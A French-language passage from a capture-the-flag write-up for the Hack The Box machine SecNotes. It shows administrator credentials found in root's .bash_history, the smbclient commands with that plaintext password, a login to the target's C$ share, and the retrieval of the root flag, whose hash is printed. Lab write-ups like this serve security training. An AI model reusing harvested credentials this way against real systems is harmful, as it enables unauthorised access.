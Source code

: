 Il faudrait pouvoir exécuter le WSL avec des privilèges supplémentaires pour parvenir à quelque chose. Le manifeste qui vient avec l'exécutable *ubuntu.exe* contient la mention *runFullTrust* mais ce n'est visiblement pas ce qu'on espère.  

Finalement si on va voir dans le *.bash\_history* de *root* on trouve des identifiants (et un gros sentiment de fatigue instantané :'D)  

```bash
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exitls
```

La suite on la devine :  

```plain
$ smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\secnotes.htb\\c$
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> cd Users/Administrator/Desktop
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 34 as root.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

Et à nous le flag root (*7250cde1cab0bbd93fc1edbdc83d447b*).  

Toujours un plaisir de s'exercer sur des machines Windows :)

*Published January 19 2019 at 17:09*
